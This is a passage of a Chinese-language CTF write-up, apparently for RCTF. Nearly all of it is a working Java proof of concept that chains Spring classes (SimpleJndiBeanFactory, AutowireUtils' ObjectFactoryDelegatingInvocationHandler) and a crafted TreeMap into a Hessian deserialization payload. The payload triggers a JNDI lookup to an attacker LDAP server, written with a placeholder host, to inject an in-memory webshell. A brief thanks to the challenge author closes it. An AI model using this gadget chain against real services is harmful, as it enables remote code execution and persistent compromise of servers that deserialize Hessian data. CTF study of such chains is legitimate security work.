


### 利用脚本

PoC 如下：使用 java-chains 通过 JNDI 二次反序列化注入内存马。

```java
package org.example;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.apache.commons.logging.impl.NoOpLog;
import org.example.tool.HessianFactory;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;
import com.rctf.server.tool.Maybe;
import org.springframework.beans.factory.BeanFactory;
import org.springframework.beans.factory.ObjectFactory;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;

public class PoC1 {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://xxxx:50389/4e13d5";

        SimpleJndiBeanFactory beanFactory = new SimpleJndiBeanFactory();
//         String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
//         SimpleJndiBeanFactory beanFactory = (SimpleJndiBeanFactory) Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        beanFactory.setShareableResources(url);
        Class<?> tboFactoryClass = Class.forName("org.springframework.beans.factory.config.ObjectFactoryCreatingFactoryBean$TargetBeanObjectFactory");
        Constructor<?> tboFactoryConstructor = tboFactoryClass.getDeclaredConstructor(BeanFactory.class, String.class);
        tboFactoryConstructor.setAccessible(true);
        // 将我们的 JNDI BeanFactory 和 JNDI URL 注入
        ObjectFactory<?> objectFactory = (ObjectFactory<?>) tboFactoryConstructor.newInstance(beanFactory, url);

        // 3. 第二环：构造 ObjectFactoryDelegatingInvocationHandler
        // 这个类是 AutowireUtils 的私有内部类，同样需要用反射
        Class<?> ofdihClass = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdihConstructor = ofdihClass.getDeclaredConstructor(ObjectFactory.class);
        ofdihConstructor.setAccessible(true);
        // 将上一步构造的 ObjectFactory 注入
        InvocationHandler handler = (InvocationHandler) ofdihConstructor.newInstance(objectFactory);

        // 4. 第一环：构造 Maybe Gadget
        Maybe maybeProxy = new Maybe(handler);

        TreeMap<Object,Object> m = new TreeMap<>();
        setFieldValue(m, "size", 2);
        setFieldValue(m, "modCount", 2);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object node = nodeCons.newInstance("RoboTerh", new Object[0], null);
        Object right = nodeCons.newInstance(maybeProxy, new Object[0], node);
        setFieldValue(node, "right", right);
        setFieldValue(m, "root", node);

        String payload_base64 = HessianFactory.serialize((Object) m);
        System.out.println("payload_base64: " + payload_base64);
//        HessianFactory.deserialize(payload_base64);

    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```



感谢出题师傅手下留情，这次总算做出来了。学了这么久的 Java，要是再爆零真的会难过。


